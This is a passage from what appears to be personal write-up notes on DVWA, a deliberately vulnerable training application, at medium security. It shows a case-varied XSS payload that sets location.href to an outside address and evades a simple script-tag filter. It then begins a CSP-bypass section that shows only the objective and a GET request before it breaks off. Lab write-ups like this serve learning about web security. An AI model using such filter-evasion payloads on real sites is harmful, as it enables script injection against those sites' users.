 ![Untitled](DVWA%20-%20medium%20e321411a64fa4f7c9a4e674a9a8bf23e/Untitled%2082.png)

### Done

```jsx
<sCript>location.href="https://1.1.1.1"</sCript>
```

![Untitled](DVWA%20-%20medium%20e321411a64fa4f7c9a4e674a9a8bf23e/Untitled%2083.png)

---

# **Content Security Policy (CSP) Bypass**

> Objective: Bypass Content Security Policy (CSP) and execute JavaScript in the page.
> 

### 觀察 CSP

```jsx
GET http://dvwa.localtest/vulnerabilities/csp/
```
